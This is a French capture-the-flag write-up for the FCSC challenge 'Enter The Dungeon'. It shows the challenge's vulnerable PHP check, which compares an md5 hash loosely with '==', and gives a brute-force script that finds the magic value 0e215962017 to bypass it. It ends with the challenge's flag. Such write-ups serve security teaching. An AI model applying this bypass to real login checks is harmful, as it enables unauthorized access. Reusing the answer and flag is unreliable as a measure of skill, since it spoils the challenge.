

# Enter The Dungeon - 25 pts


# Énoncé 
>On vous demande simplement de trouver le flag.
>
>URL : http://challenges2.france-cybersecurity-challenge.fr:5002/
>
>Format du flag : FCSC{xxxx}
>

## Introduction

Ce challenge est un des premiers challenges WEB, et porte sur une faille de type PHP Loose Comparison.


## Résolution

C'est parti ! Dans un premier temps, j'ai jeté un oeil à la page web, on arrive sur une page avec un champ input. 



Lorsqu'on submit quelque chose (à moins d'avoir beaucoup de chance) on arrive sur la page check_secret.php qui nous retourne "Wrong secret!".

Revenons à la page principale, dans le code source, on peut apercevoir 

```
<!-- Pour les admins : si vous pouvez valider les changements que j'ai fait dans la page "check_secret.php", le code est accessible sur le fichier "check_secret.txt" -->
```

On va donc sur cette page qui contient le code suivant (à priori celui de check_secret.php) :

```
[...]
if(md5($_GET['secret']) == $_GET['secret'])
{
	$_SESSION['dungeon_master'] = 1;
	echo "Secret is correct, welcome Master ! You can now enter the dungeon";
}
else
{
	echo "Wrong secret !";
}
[...]
```

On comprend qu'il s'agit d'une faille de type loose comparison. Le développeur du site croit vérifier que le hash md5 de l'input est égal à l'input, ce qui est impossible.
Cependant, il compare avec l'opérateur "==" de PHP, et non le "===". Son problème est que si celui-ci reçoit "0e1234" == "0e4321" par exemple, il va les considérer comme des nombres, ici 0^1234 == 0^4321. Le résultat sera donc vrai contrairement à ce qui est voulu.

On comprend donc qu'il nous faut trouver une valeur "0eXXXX" dont le hash md5 retourne également une chaine "0eYYY".

J'ai écrit un script PHP : 

```
<?php

for ($x = 0; $x <= 1000000000; $x++) {
	$val = "0e".$x;
    if(md5($val) == $val)
	{
		echo "Found a value!! $val";
	}
}
?>
```

Qui nous retourne rapidement : __Found a value!! 0e215962017__

On envoie donc cette valeur dans l'input puis on valide, la page nous indique que le secret est correct. Il suffit de revenir sur la page d'accueil, d'actualiser, et on obtient le message :

```
Félicitation Maître, voici le flag : FCSC{f67aaeb3b15152b216cb1addbf0236c66f9d81c4487c4db813c1de8603bb2b5b}
```

**FLAG :  _FCSC{f67aaeb3b15152b216cb1addbf0236c66f9d81c4487c4db813c1de8603bb2b5b}_**
